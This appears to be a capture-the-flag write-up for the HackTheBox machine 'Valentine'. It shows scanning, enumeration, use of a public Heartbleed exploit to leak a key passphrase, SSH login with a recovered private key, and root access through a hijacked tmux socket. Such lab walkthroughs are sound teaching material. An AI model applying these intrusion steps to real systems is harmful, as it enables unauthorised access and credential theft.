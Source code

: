 ```yaml
---
title: "Valentine HackTheBox Write-Up"
categories:
  - Write-Ups
---
```

[Valentine](https://app.hackthebox.com/machines/Valentine) is a Linux machine on HackTheBox that focuses on the Heartbleed vulnerability, which was a severe flaw in the OpenSSL cryptography library.

![](https://user-images.githubusercontent.com/85040841/155827619-5c5f37ca-3bc0-4503-b7d8-94f4f3e89bba.png)

# Scanning

Threader 3000 will quickly discover open ports on the machine, after which we can run an Nmap scan with default scripts and version detection.

```ruby
Threader 3000 - Multi-threaded Port Scanner
------------------------------------------------------------
Scanning target 10.129.1.190
------------------------------------------------------------
Port 22 is open
Port 80 is open
Port 443 is open
```

```ruby
┌──(kali㉿kali)-[~/htb/machines/valentine]
└─$ sudo nmap -Pn -n -sCV -p 22,80,443 10.129.1.190 -T4 -oN nmapSCV
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-25 02:42 EST
Nmap scan report for 10.129.1.190
Host is up (0.012s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2022-02-25T07:42:25+00:00; -1s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
```

# Enumeration

Looks like there’s a web server we can access.

After adding `valentine.htb` to my `/etc/hosts` file and opening it in Firefox, this is what I was presented with:

![](https://user-images.githubusercontent.com/85040841/155691672-a7ded968-4f78-45c0-86a2-bcfda6b978a0.png)

Viewing the page source and searching for potential JavaScript files or cookies didn’t lead anywhere, so I started enumerating directories with Gobuster.

```ruby
┌──(kali㉿kali)-[~/htb/machines/valentine]
└─$ gobuster dir -u http://valentine.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 150 -o gobusterScan -x php,txt,html -fr
===============================================================
Gobuster v3.1.0
===============================================================
/dev/                 (Status: 200) [Size: 1099]
/cgi-bin/             (Status: 403) [Size: 289] 
/index/               (Status: 200) [Size: 38]  
/doc/                 (Status: 403) [Size: 285] 
/icons/               (Status: 403) [Size: 287] 
/index.php            (Status: 200) [Size: 38]  
/server-status/       (Status: 403) [Size: 295] 
/encode/              (Status: 200) [Size: 554]
/encode.php           (Status: 200) [Size: 554]
```

I’ll check out /dev/ first, given that it has the largest size.

![](https://user-images.githubusercontent.com/85040841/155691693-045f489d-291d-49f5-95ca-da2eff6a9e0e.png)

Directory indexing is enabled and we're presented with two files. I’ll download both of them to my machine.

Contents of `notes.txt` and `hype_key`, respectively:

```ruby
1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

![](https://user-images.githubusercontent.com/85040841/155691708-95da9ca8-0b58-4b78-95ef-faca22e7f0cd.png)

Looks like hex bytes. Decoding `hype_key` with `xxd -r -p` provides an encrypted RSA private key:

```ruby
┌──(kali㉿kali)-[~/htb/machines/valentine]
└─$ cat hype_key | xxd -r -p 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
. . .
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

# Exploitation

I attempted to brute-force the password for `hype_key` with ssh2john and JtR to no avail.

While doing some research, the index page of the website and name of the box provided helpful hints, per usual.

I used `searchsploit` to search for a `heartbleed` exploit, which takes advantage of an old security bug in the OpenSSL cryptography library that tricks servers into leaking information stored in their memory.

```ruby
┌──(kali㉿kali)-[~/htb/machines/valentine]
└─$ searchsploit heartbleed                                             
----------------------------------------------------------------------------------------
Exploit Title    |  Path
----------------------------------------------------------------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)      | multiple/remote/32764.py
```

![](https://user-images.githubusercontent.com/85040841/155691760-3a42ec31-6018-4600-ba90-0965f5986771.png)

Quickly running the exploit revealed that the server is vulnerable!

However, we received a lot of zeroes in the output, so let’s filter them out with grep and see what we find:

![](https://user-images.githubusercontent.com/85040841/155691781-8bc83c3c-7848-401b-aca5-cb401036b288.gif)

Inside of the plaintext content on the right is a `$text` variable assigned to a base64-encoded string.

![](https://user-images.githubusercontent.com/85040841/155691816-b17d2f5a-1875-4b13-b87a-76ce0594ba3f.png)

Decoding it reveals the string “heartbleedbelievethehype.”

```ruby
┌──(kali㉿kali)-[~/htb/machines/valentine]
└─$ echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
heartbleedbelievethehype
```

Let’s try to decrypt the encrypted RSA private key we got earlier with it.

```ruby
┌──(kali㉿kali)-[~/htb/machines/valentine]
└─$ openssl rsa -in encrypted_id_rsa -out decrypted_id_rsa
Enter pass phrase for encrypted_id_rsa:
writing RSA key
```

Perfect. The password worked, and we now have a decrypted RSA private key.

```ruby
┌──(kali㉿kali)-[~/htb/machines/valentine]
└─$ cat decrypted_id_rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA1FN4mXAwn3ggiDC/N+BcdmEBf0yMl6IulSOkv9WfUrGTPTUo
cFHUa95jyaHFjme0c7hG6URWS9c4JMpB35/KUdFnOpI0MOJQlRldt+4qlpRvjEhk
. . .
vEgeEwRP/+S8UCRvLGdHrnHg6GyCEQMYNuUGtOVqNRw2ezIrpU7RybdTFN/gX+6S
tpUEwXFAuMcDkksSNTLIJC2sa7eJFpHqeajJWAc30qOO1IBlNVoehxA=
-----END RSA PRIVATE KEY-----
```

Given that the original name of the key was `hype_key`, let’s try to login to SSH on the machine with the username `hype`.

(And the `-o PubkeyAcceptedKeyTypes=+ssh-rsa` flag because I ran into errors without it.)

![](https://user-images.githubusercontent.com/85040841/155691846-4a7504e5-3a4e-4180-9646-22fdfcfb23c1.png)

And we’re in!

# User Flag

At this point, we can quickly get `user.txt` .

```ruby
hype@Valentine:~$ ls
Desktop  Documents  Downloads . . .
hype@Valentine:~$ cd Desktop/
hype@Valentine:~/Desktop$ ls
user.txt
hype@Valentine:~/Desktop$ cat user.txt 
e671************************1750
```

Displaying the kernel version with `uname -a` reveals that we’re dealing with a fairly old kernel, making it an easy path for privilege escalation.

```ruby
hype@Valentine:~/Desktop$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

However, that’s low-hanging fruit, so let’s go down the creator’s intended path instead.

Through some manual enumeration, I found a `/.devs` directory that looked interesting.

```ruby
hype@Valentine:~$ cat ~/.bash_history 
exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
```

The .bash_history file shows that `hype` was having trouble attaching to his tmux session, so he displayed the help menu.

He eventually figured it out and executed `tmux -S` to specify the socket’s path.

We can do the same thing and instantly obtain a root session!

# Root Flag

![](https://user-images.githubusercontent.com/85040841/155691862-fae1e3e8-3424-4f20-9c66-3ded0c78ba93.gif)
